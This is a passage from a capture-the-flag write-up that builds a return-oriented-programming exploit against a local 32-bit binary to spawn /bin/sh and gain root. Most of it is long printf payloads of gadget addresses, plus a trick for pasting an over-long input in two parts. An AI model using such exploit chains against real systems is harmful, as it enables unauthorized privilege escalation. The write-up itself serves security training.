\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08
```

Now we chain it together and add the printf:

```
(printf '/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x00\x00\x00\x00AAAABBBB\x10\x90\x04\x08\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08' ; cat) | ./target
```

# One last obstacle
If you'll try to paste the final exploit, you'll notice the following behaviour:



Our input is just too long! That's not problem we can just press `enter` and paste the rest, right?



Well yes, but actually no. It'll actually buffer the newline into our input and mess up the payload. We can account for that by splitting our input where junk resides and remove one byte of that junk, so that when we press `enter`, a new line will be placed into the input, but instead of a junk byte which we do not care about anyway.

Let's remove the closest B to the end and paste:

```
(printf '/bin/sh\x00AAAABBBB\x4c\xde\xff\xff\x00\x00\x00\x00AAAABBBB\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x00\x00\x00\x00AAAABBB
```



Press `enter`:



And paste the rest:

```
\x10\x90\x04\x08\xcc\xc8\xff\xf7AAAABBBBCCCC\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xd3\xd5\xff\xf7\xcd\xd5\xff\xf7\x4c\xde\xff\xffAAAABBBB\x7a\xc5\xff\xf7\x00\x00\x00\x00\x5c\xde\xff\xff\x10\x90\x04\x08' ; cat) | ./target
```



Woohoo! We are root! Not we can do anything! I am sure you can do the same on the remote machine, and read the flag yourself :)
